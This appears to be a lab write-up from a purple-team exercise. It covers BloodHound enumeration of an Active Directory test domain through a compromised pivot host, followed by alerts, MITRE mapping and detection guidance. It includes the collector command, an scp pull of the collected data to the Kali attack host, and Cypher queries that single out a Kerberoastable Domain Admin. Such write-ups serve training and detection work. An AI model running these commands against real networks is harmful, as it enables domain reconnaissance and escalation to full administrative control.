










# Stage 12 — BloodHound Enumeration

> **Status:** Complete — evidence attached  
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)  
> **Investigation:** [Stage 12](../../04-Investigation/Stages/stage-12-bloodhound.md)  
> **Evidence:** [attack](../Attack-Screenshots/33.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/10.png)

---

## Objective

Enumerate Active Directory structure, user accounts, security groups, trusts, and access control lists (ACLs) using BloodHound from the compromised DVWA pivot host. Analyze the extracted graph relationships in BloodHound Community Edition to identify high-privilege attack paths, specifically targeting Kerberoastable user accounts with Domain Admin privileges.

---

## Commands

```bash
# Step 1: Run BloodHound Python collector from DVWA pivot targeting the Domain Controller (PC-DC.ad.lab)
cd /tmp && python3 -m bloodhound -d ad.lab -u win10 -p 'Secur***ab!' -dc PC-DC.ad.lab -ns 192.168.56.10 -c All --zip

# Step 2: Exfiltrate BloodHound data archive (13MB) from DVWA pivot host to Kali attack machine
scp root@192.168.56.30:/tmp/*_bloodhound.zip /tmp/

# Step 3: Launch Neo4j database and BloodHound Community Edition web interface on Kali
bloodhound-start &

# Step 4: Cypher Query 1 — Discover all Kerberoastable domain accounts (users with Service Principal Names)
MATCH (u:User) WHERE u.hasspn=true RETURN u

# Step 5: Cypher Query 2 — Pinpoint Kerberoastable accounts holding direct or nested Domain Admin membership
MATCH (u:User)-[:MemberOf*1..]->(g:Group) WHERE u.hasspn=true AND g.name =~ "(?i)domain admins.*" RETURN u
```

---

## What happened

With the valid domain credentials recovered in Stage 11 (`win10` : `Secur***ab!`), the adversary leveraged the compromised Linux host (`192.168.56.30`) as an internal pivot to perform comprehensive Active Directory enumeration.

1. **Active Directory Collection:**  
   The operator executed `bloodhound.py` against Domain Controller `PC-DC.ad.lab` (`192.168.56.10`). Using standard LDAP and SAMR RPC queries with domain user privileges, the collector successfully enumerated 1 domain, 1 Active Directory forest, and 101 computer objects, archiving the resulting JSON dataset into a 13 MB compressed archive (`20260926063108_bloodhound.zip`).

2. **Data Exfiltration & Service Initialization:**  
   The compressed BloodHound archive was exfiltrated from `/tmp` on the pivot host to the Kali attack machine via SCP. The operator initiated the Neo4j database and BloodHound Community Edition web service, accessing the graphical user interface on `http://127.0.0.1:8080`.

3. **Graph Ingestion:**  
   After authenticating to BloodHound CE, the operator navigated to "Quick Upload" and uploaded `20260926063108_bloodhound.zip`. The graph database ingested all node types (Users, Groups, Computers, Domains, GPOs, and OUs) and their relationship edges.

4. **Attack Path Analysis & Discovery:**  
   - Executing Cypher query `MATCH (u:User) WHERE u.hasspn=true RETURN u` revealed **51 Kerberoastable user accounts** configured with Active Directory Service Principal Names (SPNs).
   - Executing targeted Cypher query `MATCH (u:User)-[:MemberOf*1..]->(g:Group) WHERE u.hasspn=true AND g.name =~ "(?i)domain admins.*" RETURN u` isolated a critical escalation path: **`HANK_SHERMAN@AD.LAB`**.
   - Inspection of object details confirmed `HANK_SHERMAN` (SID `S-1-5-21-3315718683-193253855-3518612541-2923`) resides in Tier Zero, has `Admin Count: TRUE`, is an active member of the `Domain Admins` group, and possesses an active SPN.

This finding identified a direct, high-impact compromise route: requesting and cracking the Kerberos TGS ticket for `HANK_SHERMAN` would immediately elevate attacker control to full Domain Administrator privileges.

---

## Evidence

### Attack Screenshots


*Figure 12.1: Executing `bloodhound.py` on the DVWA pivot host (`192.168.56.30`) using compromised `win10` domain credentials against `PC-DC.ad.lab`.*


*Figure 12.2: Transferring the 13MB BloodHound zip archive (`20260926063108_bloodhound.zip`) from DVWA to the Kali attack host via SCP.*


*Figure 12.3: Starting Neo4j and BloodHound CE background services listening on local port 8080.*


*Figure 12.4: Authenticating to the BloodHound CE web interface as administrator.*


*Figure 12.5: Selecting "Quick Upload" in the BloodHound navigation sidebar.*


*Figure 12.6: Importing `20260926063108_bloodhound.zip` into the BloodHound graph database.*


*Figure 12.7: Cypher query `MATCH (u:User) WHERE u.hasspn=true RETURN u` returning 51 Kerberoastable domain user objects.*


*Figure 12.8: Targeted Cypher query identifying `HANK_SHERMAN@AD.LAB` as a Kerberoastable Domain Administrator account in Tier Zero.*

### Alert Screenshots


*Figure 12.9: TheHive alert overview displaying multiple Wazuh logon activity alerts for ROOT on DVWA during enumeration pivot setup.*


*Figure 12.10: TheHive alert detail showing Wazuh Rule 5715 triggered by SSH logon bursts from Kali (`192.168.232.135`) to DVWA (`192.168.56.30`) to execute and retrieve BloodHound telemetry.*

---

## Alert observed

| Source | Rule | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / TheHive | sshd: authentication success / High-volume LDAP enumeration | Rule 5715 | `[4x] [DVWA] Logon activity: ROOT @ 192.168.232.135` | Medium | DETECTED |

### Detection Analysis

- **Detection Pipeline:** The multiple administrative SSH sessions initiated from the Kali workstation (`192.168.232.135`) to the DVWA pivot host (`192.168.56.30`) generated auth log entries captured by the Wazuh agent. Wazuh Rule 5715 triggered and forwarded the correlated alert burst to TheHive.
- **Correlated Domain Telemetry:** Concurrently, Domain Controller `PC-DC.ad.lab` processed an anomalous volume of LDAP search queries (TCP port 389/636) and SAMR RPC calls originating from a non-Windows, Linux DMZ web server (`192.168.56.30`), generating clear telemetry indicators on the Domain Controller.

---

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Discovery | Account Discovery | T1087 | Domain Account (T1087.002) |
| Discovery | Permission Groups Discovery | T1069 | Domain Groups (T1069.002) |
| Discovery | Domain Trust Discovery | T1482 | N/A |

---

## Detection opportunities

1. **Active Directory LDAP Query Logging (Event ID 1644):**
   - Enable LDAP diagnostic logging on Domain Controllers via Registry: `HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics\15 Field Engineering` set to level `5`.
   - Alert on queries with broad filters commonly employed by BloodHound collectors:
     - `(&(objectCategory=person)(objectClass=user))`
     - `(servicePrincipalName=*)`
     - `(&(objectCategory=group)(objectClass=top))`
     - `(objectClass=computer)`
   - Flag high result-set sizes (>500 entries) returned to non-administrative workstations or DMZ IP addresses.

2. **Network IDS / Suricata Detections:**
   - Detect sustained LDAP/LDAPS (ports 389/636) and SMB/SAMR (port 445) connections between DMZ Linux web servers and internal Domain Controllers. DMZ machines should never legitimately perform bulk directory queries against internal DCs.
   - Deploy Suricata signatures alerting on `samr` RPC binds and enumeration calls from untrusted subnets.

3. **Active Directory Auditing (Event ID 4662 / 4661):**
   - Enable "Audit Directory Service Access" and monitor for rapid successive read operations across container objects, organizational units (OUs), and domain root objects.

4. **Endpoint Pivot Detection:**
   - Wazuh / Sysmon on Linux pivots: Alert on Python execution spawning connections to domain controllers on ports 389, 445, 88, and 3268.

---

## Notes

- BloodHound relies entirely on legitimate Active Directory protocols (LDAP, SAMR, NetSessionEnum). Standard unprivileged domain user accounts possess sufficient permissions by default to enumerate the entire domain topology.
- Identification of `HANK_SHERMAN@AD.LAB` having both an SPN and membership in `Domain Admins` demonstrated the severe hazard of assigning service principal names to privileged administrative accounts.
- This reconnaissance intelligence directly primed Stage 13 (Kerberoasting).
